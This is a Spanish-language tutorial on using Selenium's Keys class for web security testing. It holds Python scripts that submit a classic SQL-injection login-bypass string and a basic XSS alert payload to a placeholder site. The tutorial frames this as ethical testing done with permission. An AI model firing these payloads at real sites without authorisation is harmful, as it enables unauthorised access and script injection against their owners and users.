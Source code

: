 ### **Tutorial: Uso de Selenium y la Clase `Keys` en Pruebas de Seguridad Web**

Este tutorial está diseñado para mostrar cómo se puede utilizar Selenium y la clase `Keys` para simular interacciones de teclado en una aplicación web. Si bien Selenium es una herramienta de automatización destinada a pruebas de aplicaciones web, también se puede utilizar para demostrar vulnerabilidades de seguridad si se usa de manera indebida. A continuación, se detallan los aspectos teóricos y prácticos.

### **Teoría: ¿Qué es Selenium y la Clase `Keys`?**

**Selenium** es un marco de automatización que permite controlar un navegador web mediante código. Proporciona herramientas para simular la interacción del usuario con aplicaciones web, lo que lo hace ideal para pruebas automatizadas.

**La clase `Keys`** en `selenium.webdriver.common.keys` define códigos especiales para simular teclas del teclado, como:

- `ENTER`: para enviar formularios.
- `TAB`: para navegar entre campos.
- `SHIFT`, `CONTROL`: para seleccionar texto o realizar combinaciones.

### **Uso Ético de Selenium y `Keys`**

Es fundamental utilizar Selenium de manera ética y responsable. Las siguientes secciones ilustran cómo un "hacker ético" podría utilizar estas herramientas para identificar y corregir vulnerabilidades en aplicaciones web, en lugar de explotarlas de forma maliciosa.

### **Ejemplo 1: Prueba de Inyección de Formulario**

#### **Objetivo:**
Simular una inyección SQL en un campo de formulario para verificar si la aplicación es vulnerable.

#### **Paso 1: Preparar el Entorno**

1. **Instalar Selenium**: Asegúrate de tener Selenium instalado.
   ```bash
   pip install selenium
   ```

2. **Descargar un WebDriver**: Descarga el WebDriver adecuado para tu navegador (por ejemplo, ChromeDriver para Google Chrome).

#### **Paso 2: Escribir el Script de Prueba**

```python
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
import time

# Inicializar el WebDriver
driver = webdriver.Chrome(executable_path="/ruta/al/driver/chromedriver")

# Navegar a la página de login de prueba
driver.get("https://ejemplo.com/login")

# Encontrar el campo de usuario e ingresar un nombre de usuario
campo_usuario = driver.find_element("name", "usuario")
campo_usuario.send_keys("admin' OR '1'='1")

# Encontrar el campo de contraseña e ingresar una contraseña cualquiera
campo_contrasena = driver.find_element("name", "contrasena")
campo_contrasena.send_keys("cualquier_contraseña")

# Enviar el formulario
campo_contrasena.send_keys(Keys.RETURN)

# Esperar para ver los resultados
time.sleep(5)

# Cerrar el navegador
driver.quit()
```

#### **Explicación:**
En este script, se utiliza una cadena SQL en el campo de usuario para intentar eludir la autenticación. Si la aplicación es vulnerable, podría iniciar sesión sin una contraseña válida.

### **Ejemplo 2: Bypass de Autenticación con Teclas**

#### **Objetivo:**
Utilizar la clase `Keys` para automatizar el acceso a un área restringida.

#### **Paso 1: Escribir el Script de Prueba**

```python
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
import time

# Inicializar el WebDriver
driver = webdriver.Chrome(executable_path="/ruta/al/driver/chromedriver")

# Navegar a la página de login
driver.get("https://ejemplo.com/login")

# Encontrar el campo de usuario y contraseña
campo_usuario = driver.find_element("name", "usuario")
campo_usuario.send_keys("usuario_test")

campo_contrasena = driver.find_element("name", "contrasena")
campo_contrasena.send_keys("contraseña_test")

# Simular el uso de TAB y luego ENTER para enviar el formulario
campo_contrasena.send_keys(Keys.TAB)
campo_contrasena.send_keys(Keys.RETURN)

# Esperar para ver los resultados
time.sleep(5)

# Verificar el acceso
if "Bienvenido" in driver.page_source:
    print("Acceso exitoso")
else:
    print("Fallo en el acceso")

# Cerrar el navegador
driver.quit()
```

#### **Explicación:**
Este script simula un inicio de sesión normal. Sin embargo, el atacante podría explorar si la aplicación permite acceder a áreas restringidas mediante automatización.

### **Ejemplo 3: Automatización de Formulario para XSS (Cross-Site Scripting)**

#### **Objetivo:**
Probar la inyección de scripts para verificar si la aplicación es vulnerable a XSS.

#### **Paso 1: Escribir el Script de Prueba**

```python
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
import time

# Inicializar el WebDriver
driver = webdriver.Chrome(executable_path="/ruta/al/driver/chromedriver")

# Navegar a la página de comentarios
driver.get("https://ejemplo.com/comentarios")

# Encontrar el campo de comentario e ingresar un script
campo_comentario = driver.find_element("name", "comentario")
campo_comentario.send_keys("<script>alert('XSS')</script>")

# Enviar el comentario
campo_comentario.send_keys(Keys.RETURN)

# Esperar para ver el resultado
time.sleep(5)

# Cerrar el navegador
driver.quit()
```

#### **Explicación:**
En este ejemplo, se intenta inyectar un script en un campo de comentario. Si la aplicación no sanitiza adecuadamente las entradas, podría ejecutar el script y desencadenar una alerta.

### **Conclusión**

Este tutorial ha demostrado cómo un hacker ético puede utilizar Selenium y la clase `Keys` para automatizar interacciones con aplicaciones web, identificando vulnerabilidades como inyección SQL y XSS. Sin embargo, es crucial recordar que todas las pruebas deben realizarse en un entorno controlado y con permiso explícito del propietario de la aplicación. La ética en la seguridad cibernética es fundamental para proteger a los usuarios y las organizaciones.